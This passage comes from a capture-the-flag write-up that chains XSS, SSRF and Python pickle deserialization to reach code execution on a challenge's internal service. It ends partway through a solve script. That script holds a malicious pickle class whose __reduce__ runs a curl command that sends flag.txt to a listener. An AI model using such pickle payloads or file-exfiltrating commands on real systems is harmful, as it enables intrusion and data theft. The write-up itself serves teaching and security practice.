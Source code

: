 ```python
    return str(data)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=port, threaded=True)
```

Ok this has only one route which is `/pickle` and it requires the `GET` parameter `pickle` to be a `hex` which is then decoded and finally it uses `pickle.loads()` to load the serialized object

The port this service is running on is chosen at random between `5700-6000` 

This is clearly an insecure deserialization [vulnerability](https://portswigger.net/web-security/deserialization) because `pickle.loads()` is used for de-serializing a python serialized object and it isn't [secure](https://docs.python.org/3/library/pickle.html)

Now that we've looked through the source we see there are three main bugs:
- Cross Site Scripting (XSS)
- Server Side Request Forgery (SSRF)
- Insecure Deserialization

The third one is of high advantage because we can use that to get Remote Code Execution (RCE)

But we can't access that because it is running internally at some random port

How do we then go about this?

Because we have SSRF we can leverage that to access the internal service which is running the web service that gives us the deserialization vulnerability

But we can't really make use of the SSRF directly because to access `/query` we need to know the `SECRET` value and we don't know that

Luckily we can make use of the XSS to do this

That would work because when the admin bot visits our path it would set the cookie `secret` to hold the `SECRET` value and the `/query` route on the main server checks if the `secret` cookie value equals the `SECRET` value

Ok so it's clear now:

- We need to craft an XSS payload that triggers the admin bot to send a POST request to the /query route.
- The request's body should contain a URL pointing to an internal web service with a deserialization vulnerability.
- The URL should include a GET parameter named pickle, which carries the deserialization payload

To achieve this I made use of the javascript [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) api

And for the internal web service port I just brute forced because it's feasible

Here's my solve scrpt

```python
import requests
import json
import pickle, os


class Pickle:
    def __reduce__(self):
        return (os.system,("curl http://localhost:8888/?flag=`cat flag.txt`",))


def visit(url, path):
    data = {
        'path': path
    }

    res = requests.post(url + '/visit', data=data)
```